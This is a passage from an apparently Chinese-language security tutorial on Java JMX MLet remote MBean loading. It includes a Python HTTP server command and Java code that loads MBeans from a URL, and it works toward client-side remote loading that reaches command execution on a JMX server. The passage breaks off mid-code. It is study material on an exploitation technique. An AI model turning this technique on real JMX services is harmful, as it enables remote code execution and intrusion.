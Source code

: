 用python起一个简易的http服务

```
python3 -m http.server 8088
```

注册MBeanServer

```
package MBean;
import javax.management.MBeanServer;
import javax.management.ObjectName;
import javax.management.loading.MLet;
import javax.management.remote.JMXConnectorServer;
import javax.management.remote.JMXConnectorServerFactory;
import javax.management.remote.JMXServiceURL;
import java.lang.management.ManagementFactory;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class MLetRemote {
    public static void main(String[] args) throws Exception {
        MBeanServer mBeanServer = ManagementFactory.getPlatformMBeanServer();
        MLet mLet = new MLet();
        ObjectName objectName = new ObjectName("JMXMLet:type=MLet");
        mBeanServer.registerMBean(mLet, objectName);
        mLet.getMBeansFromURL("http://localhost:8088/mlet");
        Registry registry = LocateRegistry.createRegistry(4444);
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:4444/jmxrmi");
        JMXConnectorServer jmxConnectorServer = JMXConnectorServerFactory.newJMXConnectorServer(jmxServiceURL, null, mBeanServer);
        jmxConnectorServer.start();
        System.out.println("JMXConnectorServer is running");
    }
}
```

连接后

![image-20221121121615236](images/5.png)

# 客户端远程注册

之前虽然是命令执行了，但是却是在服务端去写的这种加载远程MBean的代码，那服务端是我们不能控制的，所以说，能不能通过客户端去实现一个远程加载MBean呢？答案是可以的

首先写一个最基本的服务端，没有注册任何一个新的MBean

```
package MBean;

import javax.management.MBeanServer;
import javax.management.MBeanServerConnection;
import javax.management.ObjectName;
import javax.management.remote.*;
import java.lang.management.ManagementFactory;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class test {
    public static void main(String[] args) throws Exception {
        MBeanServer mBeanServer = ManagementFactory.getPlatformMBeanServer();
        Registry registry = LocateRegistry.createRegistry(2333);//绑定端口
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:2333/jmxrmi");//构造 JMXServiceURL
```